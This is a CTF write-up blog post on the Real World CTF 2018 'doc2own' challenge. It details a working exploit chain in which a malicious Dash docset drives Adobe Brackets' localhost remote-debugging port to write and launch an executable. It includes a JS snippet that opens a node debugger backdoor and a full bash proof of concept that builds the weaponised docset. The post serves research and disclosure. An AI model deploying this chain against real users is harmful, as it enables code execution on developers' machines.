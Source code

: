 ```yaml
---
layout:	post
title:	"Something About #realworldctf doc2own"
date:	2018-08-07
image: /img/rwctf.png
show_excerpt: true
---
```


The challenge is to get a shell when the victim opens a Dash docset. Both Dash and Adobe Brackets are up to date. Actually the intended solution **involves no zero day at all**. This writeup from Team 217 [Real World CTF 2018 — doc2own](https://blog.l4ys.tw/2018/07/realworld-ctf-2018-doc2own/) (in Traditional Chinese) is the expected solution.

<!-- more -->

## The Intended Solution Without Involving 0day

#### From remote debug to shell

After the [VSCode 9333 debugging port issue](http://bluec0re.blogspot.com/2018/03/cve-2018-7160-pwning-nodejs-developers.html) I looked at some other javascript based desktop applications, especially editors and IDE. I came across this same vulnerability in Adobe Brackets: [CEF remote debugging is vulnerable to dns rebinding attack #14149](https://github.com/adobe/brackets/issues/14149)

It's weird to have a debugging port in production but Brackets does it. Unlike Atom or VSCode, Brackets is based on libCEF and custom node.js runtime binding. The debugging protocol for web frontend is the same as Chromium.

In the original report, exploit requires dns rebinding to get the random websocket uuid to start a debug session, then use DOM manipulation (there was a bug so `Runtime.Evaluate` didn't work) to inject malicious javascript to the frontend context. But node.js runtime can not be accessed so you need a V8 engine bug to achieve native code execution. The libCEF is pretty old so all you need is to grab an n-day exploit. No further sandbox. Unfortunately memory corruption is not what I am familiar with.

There are some special bridged objects in the context: `appshell` and `brackets`. In the challenge you don't really need a shell because `brackets` already gives the filesystem access.

Unrestricted file system access almost equals code execution, but it requires a trigger. There are two functions that can be turned to instant command execution.

1. `brackets.app.openURLInDefaultBrowser` does not limit `file:///` url, so point it to an executable like `.cmd` or `.exe` equals `ShellExecute` on Windows. For macOS we can use `.terminal` or `.sh`.
2. The application bundle on macOS is actually a directory with specific structure. Opening such bundle will execute a file. Method `brackets.app.showOSFolder` can trigger this behavior.

```js
function calc() {
  // use brackets.fs to write your own executable
  // makedir, writeFile, chmod are your friends
  if (brackets.app.getUserDocumentsDirectory().indexOf('/') === 0) {
    brackets.app.showOSFolder('/Applications/Calculator.app');
  } else {
      brackets.app.openURLInDefaultBrowser('file:///C:/windows/system32/calc.exe');
  }
// P.S. brackets.getModule is also available. We can even activate a node debugger backdoor
  const NodeConnection = brackets.getModule("utils/NodeConnection");
  const conn = new NodeConnection();
  conn.connect(true);
  conn.domains.base.enableDebugger(); // enable *:5858 as a backdoor, which accepts connection from another computer. Just attach it with VSCode or other debugger to execute node.js code
}
```

The patch killed dns rebinding, but this port is still open. So what if we can access it from somewhere with no Same Origin Policy?

#### The Dash Part

There was no special reason to choose Dash as this part. Dash is popular for developers, and it has a WebView that can make cross site AJAX if the document has `file:///` origin. The WebView in Dash is the same WebKit engine as Safari, **I don't think someone will burn a Safari 0day exploit in the CTF**.

You may think about directly reading flag from `file:///` via AJAX. Actually this bug has been reported for a while, including the symlink variant, as well as a directory traversal in the GCDWebServer.

![](/img/XHQ-73R0VHZvwNubvKipXg.png)

#### Demo

Looks like both two issues are not so serious, but together they can spawn a remote shell:

* A debugging port that only allows localhost connection
* A web browser without same origin policy

Here's a proof of concept that launches a calculator:

```bash
contents=exploit.docset/Contents
docs=$contents/Resources/Documents

rm -r $contents
mkdir -p $docs

cat > $docs/index.html <<- "EOF"
<script>
async function main() {
  const list = await fetch('http://localhost:9234/json').then(r => r.json());
  const item =  list.find(item => item.url.indexOf('file:///') === 0);
  if (!item) return console.error('invalid response');
  const url = `ws://127.0.0.1:9234/devtools/page/${item.id}`;
  console.log('url:' + url);
  exploit(url);
}
function exploit(url) {
  function calc() {
    const fs = window.appshell.fs;
    const mkdir = path => new Promise((resolve, reject) =>
      fs.makedir(path, 0755, err => err => err === 0 ? resolve(true) : reject(err)));
    const writeFile = (path, content) => new Promise((resolve, reject) =>
      fs.writeFile(path, content, 'utf8', false, err => err === 0 ? resolve(true) : reject(err)));
    const chmod = (path, mode) => new Promise((resolve, reject) =>
      fs.chmod(path, mode, err => err === 0 ? resolve(true) : reject(err)));
    const INFO_PLIST = `<?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
      <plist version="1.0">
      <dict>
        <key>CFBundleExecutable</key>
        <string>hello</string>
        <key>CFBundleIconFile</key>
        <string>AppIcon</string>
      </dict>
      </plist>`;
    const EXEC = `#!/bin/sh
      open -a Calculator`;
    const app = '/tmp/test.app/';
    const base = app + 'Contents/'
    return mkdir(base + 'MacOS')
      .then(writeFile(base + 'Info.plist', INFO_PLIST))
      .then(writeFile(base + 'MacOS/hello', EXEC))
      .then(chmod(base + 'MacOS/hello', 0777))
      .then(new Promise((resolve, reject) => {
        brackets.app.showOSFolder(app)
      }));
  }
  const ws = new WebSocket(url);
  ws.onopen = async () => {
    let counter = 13371337;
    const send = (method, params) => new Promise((resolve, reject) => {
      const id = counter++;
      const recv = ({ data }) => {
        const parsed = JSON.parse(data);
        if (parsed.id === id) {
          resolve(parsed.result);
          ws.removeEventListener('message', recv);
        } else {
          console.log('message: ', data);
        }
      };
      ws.addEventListener('message', recv);
      ws.send(JSON.stringify({ id, method, params }));
    });
    const response = await send('Runtime.evaluate', { expression: `(${calc})()` });
    console.log(response.result);
    ws.close();
  }
  ws.onerror = () => console.log('failed to connect');
}
main();
</script>
EOF

cat > $contents/Info.plist <<- "EOF"
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
  <key>CFBundleIdentifier</key>
  <string>exploit</string>
  <key>CFBundleName</key>
  <string>Exploit</string>
  <key>DocSetPlatformFamily</key>
  <string>exploit</string>
  <key>dashIndexFilePath</key>
  <string>index.html</string>
  <key>isDashDocset</key>
  <true/>
</dict>
</plist>
EOF

sqlite3 -batch $contents/Resources/docSet.dsidx << "EOF"
CREATE TABLE searchIndex(id INTEGER PRIMARY KEY, name TEXT, type TEXT, path TEXT);
CREATE UNIQUE INDEX anchor ON searchIndex (name, type, path);
INSERT OR IGNORE INTO searchIndex(name, type, path) VALUES ('Exploit', 'Class', 'index.html');
EOF

open exploit.docset

tar czf exp.tar.gz exploit.docset
```

[Demo](https://youtu.be/8--cX0BF3ew)

But during the CTF, it didn't cost [Plaid Parliament of Pwning](https://ctftime.org/team/284), [CyKOR](https://ctftime.org/team/369) and [Eat, Sleep, Pwn, Repeat](https://ctftime.org/team/15712) too much time to find real zero day solutions in Dash itself. After the game, I did a quick disassemble and found some other new bugs that have been confirmed by the developer.

After reporting to [Kapeli](https://medium.com/u/f1aac0988a9), he quickly made a new release, and checked the docset repo to make sure there were no actual attack. Thanks for his response!

> The docsets available by default within Dash (including user contributed ones) have been checked and no evidence of these vulnerabilities being exploited has been found.

To protect end users of Dash, I'll not reveal the unintended bugs now. **Please upgrade to Dash 4.4.0 ASAP.**
